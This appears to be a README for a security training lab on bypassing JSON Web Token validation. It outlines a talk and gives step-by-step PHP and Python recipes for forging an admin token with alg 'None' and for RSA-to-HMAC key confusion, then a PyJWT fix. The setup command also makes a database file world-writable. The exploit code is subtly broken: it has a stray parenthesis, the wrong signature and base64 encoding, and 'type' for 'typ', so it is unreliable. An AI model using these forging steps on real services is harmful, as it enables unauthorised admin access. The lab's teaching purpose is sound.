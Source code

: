 # Lab: JWT None Algorithm Bypass

JWT bypass two ways:

- Using the "None" algorithm for the header
- Shifting the alg over to use HMAC and public key as hash key (public keys are public)

## Title

The Key to Secure JSON Web Tokens

## Outline

I. Introduction to JSON Web Tokens
    a. What they are, what they can be used for
        - More context than just a session identifier
        - Avoiding sensitive data in claims
        - Sending them as headers

    b. How they're structured and created
        - built from JSON
        - header, claims, signature (link to more info about claims)
        - serialized, bas64 encoded (url safe)
        - signature generated by different algorithms
        - JWT aren't encrypted

II. Exploit #1: Bypass of validation with "None"

    a. Detail on the algorithms supported by category: None, HMAC, RSA
        - None means no signature checking, is a part of the spec
        - HMAC uses single secret key for generating signature hash
        - RSA uses public/private key for signature generation

    b. Updating a token to use None
        - Get current valid token
        - Decode it to determine the current claims and header
        - Modify the header to use `alg: None`
        - Recreate parts (header, claims, signature): base64_encode(json)
        - Signature doesn't matter, code doesn't validate it

    c. Problem is the control the user has over the algorithm used
        - Many libraries don't allow `None` as a valid `alg` option anymore

III. Exploit #2: Bypass of correct validation with `alg` change

    a. Similar to the "None issue
        - Involves a manual change to the algorithm
        - Can be used when the tokens use RSA for signature generation
        - Means shifting the `alg` value to HMAC instead of RSA

    b. Updating the token to move to HMAC
        - Change `alg` value in header to `HS256` instead of `RS256`
        - This causes the public key to be used as the HMAC secret
        - Public keys are public knowledge so are easy to find
        - Regenerate the signature using HMAC and the public key as the HMAC secret

    c. Again, problem is the control the user has over the algorithm
        - They don't choose the `alg` on generation, the app does
        - They can choose on decoding, dangerous if app chooses from the header
        - Most libraries will now enforce the definition of an `alg` and compare the header

IV. Fixing things by using a pre-existing library

    a. Not the only way to fix JWT use but better than roll-your-own
        - Library for Python: PyJWT
        - Libraries for other langauges: 
            > namshi/jose for PHP
            > firebase/php-jwt for PHP
            > jsrsasign for Javascript
            > org.bitbucket.b_c / jose4j / 0.6.3 for Java
            > jwt for Ruby
            > SermoDigital/jose for Go

    b. Using PyJWT to correct the issue
        - Make sure the PyJWT library is installed (`pip install pyjwt`)
        - Replace the current `jwtManager` with a new version
            make use of the library that was specifically updated to prevent the two issues

    c. The importance of using trusted tools


## Resources

- [JSON Web Token RFC](https://tools.ietf.org/html/rfc7519)
- [JWT.io](https://jwt.io/)
- [JSON Web Token Claims Registry](https://tools.ietf.org/html/rfc7519#section-10.1)
- [PyJWT library](https://pyjwt.readthedocs.io/en/latest/)
- [Auth0 JWT vulnerability article](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)
- [namshi/jose](https://github.com/namshi/jose)
- [firebase/php-jwt](https://github.com/firebase/php-jwt)
- [jsrsasign](http://kjur.github.io/jsrsasign/)
- [org.bitbucket.b_c / jose4j / 0.6.3](https://bitbucket.org/b_c/jose4j)
- [jwt for Ruby](https://github.com/progrium/ruby-jwt)
- [SermoDigital/jose for Go](https://github.com/SermoDigital/jose)

## Setting up the database

```
python3 cli.py migrate -f; python3 cli.py db:seed -f; chown nobody /tmp/test.db; chmod 777 /tmp/test.db
```


## To perform the "None" bypass

1. Get the current token
2. Decode it at https://jwt.io to find the current claims values
3. Use the structure to create a "None" token

### PHP
```php
<?php
echo base64_encode('{"alg": "None", "type": "JWT"}');
echo base64_encode('{"claims": {"username": "user1", "level": "admin"}}');
?>
```

### Python (v3)
```python
import base64
print(base64.b64encode('{"alg": "None", "type": "JWT"}'.encode('utf-8')))
print(base64.b64encode('{"claims": {"username": "user1", "level": "admin"}}'.encode('utf-8')))
```

4. Profit!

## To perform the RSA/HMAC bypass

1. Get the current public key (freely available)
2. Change the algorithm to use 'HS256' so it will use HMAC
3. Generate the new token with signature using the public key as the HMAC key

### Python (v3)
```python
import json, base64, hashlib, hmac

pubkey = '...'
header = base64.b64encode('{"alg": "HS256", "type": "JWT"}'.encode('utf-8')))
payload = base64.b64encode('{"claims": {"username": "user1", "level": "admin"}}'.encode('utf-8')))

# And now the signature
message = '{}.{}'.format(header, payload).encode('utf-8')
signature = hmac.new(pubkey, message, hashlib.sha256).hexdigest()

token = [
    header.decode('utf-8'),
    payload.decode('utf-8'),
    signature
]
token = '.'.join(token)

print(token.encode('utf-8'))
```

4. Profit!
